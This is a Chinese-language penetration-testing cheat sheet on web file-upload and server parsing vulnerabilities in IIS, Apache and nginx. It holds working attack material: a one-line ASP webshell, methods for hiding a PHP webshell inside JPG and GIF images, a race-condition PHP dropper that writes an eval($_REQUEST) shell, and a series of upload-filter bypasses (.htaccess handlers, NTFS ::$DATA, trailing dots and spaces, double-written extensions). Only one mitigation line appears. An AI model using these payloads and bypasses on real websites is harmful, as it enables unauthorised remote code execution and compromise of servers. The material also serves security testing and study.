



# IIS文件解析漏洞


IIS使用最多的版本：

- winServer2003内置的`IIS6.0`
- winServer2008内置的 `IIS7.0`
- `IIS7.5` 
- winServer2016内置的`IIS10`

IIS6.0 默认配置： 

- `asa` `cdx` `cer` 都能当作asp解析

- 文件名`hack.asp;.jpg`会被当作asp解析
- 路径`hack.asp/1.jpg`会被当作asp解析

- `asmx`能当作aspx

asp一句话

```asp
<%eval request('a')%>
```


# apache

## 后缀解析漏洞

Apache从右往左判断后缀名，当Apache无法识别后缀名时，则往左跳下一个，可借助abcde绕过检测`shell.php.abcde`


# nginx和IIS的cgi解析漏洞

`xxx/1.jpg/.php`会被当作一个php传给cgi处理


修复方案


将php.ini `cgi.fix_pathinfo`设置为`0`重启php-fpm即可

# 制作图片马

## jpg追加法

准备图片素材与一句话木马

`1.jpg` `1.gif` `hack.php`

### linux

```bash
cat 1.jpg hack.php > hack.jpg
```

### windows

参数b(指binary)

若只是普通文本文件合并，也可使用参数a(指ASCII)

```bash
copy/b 1.jpg + hack.php hack.jpg 
```

- 同样方法也可将多个m3u8视频拼接转换成mp4
- 拼接多个mp3可连续播放多条音频

## gif隐写(推荐)

### 简介

gif文件中定义了很多种信息块的格式，头部包含最多关键信息，如全局颜色表、画面比例等，受服务器二次渲染影响比较小

仅替换头部信息，可降低二次渲染后内容被重置的概率

### 工具准备

- [HexFiend(mac)](https://github.com/HexFiend/HexFiend/releases/tag/v2.14.1)
- [EverEdit(windows)](http://cn.everedit.net/)
- [winHex(windows)](http://www.x-ways.net/winhex/)
- [字符串hex互转在线工具](https://tool.lu/hexstr/)

#### linux/mac可直接使用vim+xdd

执行命令：`vim -b 1.gif` 参数`-b`(打开一个binary文件,不指定参数会在后面出现一个换行符`0x0a`)

然后在vim命令模式下调用系统xxd转换命令：`:%!xxd`

!> vim中只能通过修改hex来改变值，不要修改地址和后面的ascii码，**且保存前要记得输入`:%!xxd -r`转回ascii模式**

> 只是查看hex的话，可在shell中使用xxd命令 `xxd 1.gif | less`

### 动手试一试吧

> **本次测试使用的图片**
> 
> 

- 使用编辑工具打开gif图片



- 避开前13个字节
- 避开`21FF___00`，这是应用程序扩展
- 避开`21F9___00`，这是图形控制扩展
- 避开`2C00000000___00`，这是图像描述符
- [点击查看gif文件存储结构](/其他/gif文件存储结构)




- 尝试替换部分内容（是替换不是新增）

- 测试图片是否可打开



- 将图片上传到目标站点，下载响应过来的图片，查看数据是否被二次渲染破坏

> 当一处长度不足以输入所有代码时，灵活应用注释在多处拼接代码


# 条件竞争

## 服务器先复制文件后验证

流程：服务器先把文件从temp复制到存储区->验证文件合法性->验证不通过则删除

可以在文件被删除之前，让恶意文件生成子文件逃脱控制

parent.php

```php
<?php 
    file_put_contents('shell.php','<?php eval($_REQUEST[8]);?>');
    echo "success!";
?>
```

上传一个正常的文件，得到文件的存储路径`http://xxx.com/uploads/1.jpg`

### 使用burp跑包功能

- 将上传包和访问文件包`http://xxx.com/uploads/parent.php`发送到Intruder


# 文件上传漏洞1

### 测试1：假设仅前端验证

- burp抓包修改文件后缀


### 测试2：假设只判断http头的mime类型

- burp抓包修改Content-Type为允许的格式[mime类型](/其他/mime.json)

### 测试3：后端黑名单禁止上传 php,asp,jsp,aspx

- burp抓包测试文件后缀 php3 php4 php5 phtml PHP PHp PhP Php pHP pHp

### 测试4：`.htaccess`是否可上传

!> 容易导致服务出现异常，建议先尝试上传Content-Type + 自创后缀名

```
Addtype application/x-httpd-php .jpg
```

或者

```
<FilesMatch "shell.jpg"> SetHandler application/x-httpd-php
```

### 测试5：后缀加空格` `或`.`绕过检测
`a.php ` `a.php.`

### 测试6：::$DATA（Windows NTFS文件流绕过）
`a.php::$DATA`

### 测试7：构建后缀替死鬼

后端前后去空、删除结尾处`.`的情况

`1.php. .`
`1.php . `
`1.php.. `

### 测试8：双写法

```php
// 文件名存在黑名单中的后缀名则替换为空
$filename = str_ireplace(['php','php2','php3','php4','phtml'],"", $filename);
```
ph**php**p  替换php为空后，前面的`ph`与后面的`p`结合为`php`


